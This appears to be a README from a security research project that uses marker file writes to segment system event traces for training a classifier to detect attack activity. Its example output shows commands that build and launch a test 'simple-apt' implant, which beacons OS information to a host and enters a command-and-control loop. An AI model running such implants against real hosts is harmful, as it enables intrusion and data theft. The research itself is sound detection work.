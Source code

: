
    adapt/classifier/phase3/marker/

marker injection
================

We will focus on `ta5attack2` using PID-based segmentation,
injecting begin / end markers for grammar terminals into
the sequence of logged events:

1. preamble events
2. marker: begin 1
3. events of interest
4. marker: end 1
5. postamble events

Our sklearn.ensemble.RandomForestClassifier model will
identify segments with region 3 events of interest,
even after markers are removed.

During training we deliberately blind the learner
to attributes easily controlled by an attacker,
such as names of files outside of `/usr/bin`,
substituting a nonce value instead.

For marker number 1, the begin event shows up in
the trace as a write to `/tmp/tc-marker-001-begin.txt`.
This is followed by events of interest,
and then a write to `/tmp/tc-marker-001-end.txt`.

example output
--------------

    hangang:~/TransparentComputing/malware/cross-platform/simple-apt/simple$  python cmake.py rebuild | tail -3 && cp -p bin/linux/release/x64/simple /tmp/
    [*] Deleting bin/linux/release/x64
    [*] Building linux/x64/release
    [*] Built 4 targets in 7 seconds
    hangang:~/TransparentComputing/malware/cross-platform/simple-apt/simple$  /tmp/simple 13.1.102.2 4000
    [*] Target: 13.1.102.2:4000
    [*] Initializing message subsystem
    [*] Initializing network
    [*] Initializing session
    [*] Starting session
    [*] Getting OS information...
    [*] Linux #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) (3.16.0-4-amd64)
    [*] Encoding message
    [*] Encoding new connection info message
    [*] Sending message of 80 bytes (1 chunks)
    [*] Sending data: 95 bytes
    [*] Sent chunk of 95 bytes
    [*] Sent total message of 80 bytes
    [*] Sent 80 bytes
    [*] Creating message loop thread...
    [*] Entering C&C message processing loop...
    [*] Starting message receive loop...
    [*] Exiting message receive loop
    [*] Session is not connected
    [*] Ending session
    [*] Cleaning up network
    hangang:~/TransparentComputing/malware/cross-platform/simple-apt/simple$  ls -l /tmp/*mark*
    -rw-r--r-- 1 jhanley staff 2 Aug 10 09:24 /tmp/tc-marker-001-begin.txt
    -rw-r--r-- 1 jhanley staff 2 Aug 10 09:24 /tmp/tc-marker-001-end.txt
    -rw-r--r-- 1 jhanley staff 2 Aug 10 09:24 /tmp/tc-marker-002-begin.txt
    -rw-r--r-- 1 jhanley staff 2 Aug 10 09:24 /tmp/tc-marker-002-end.txt
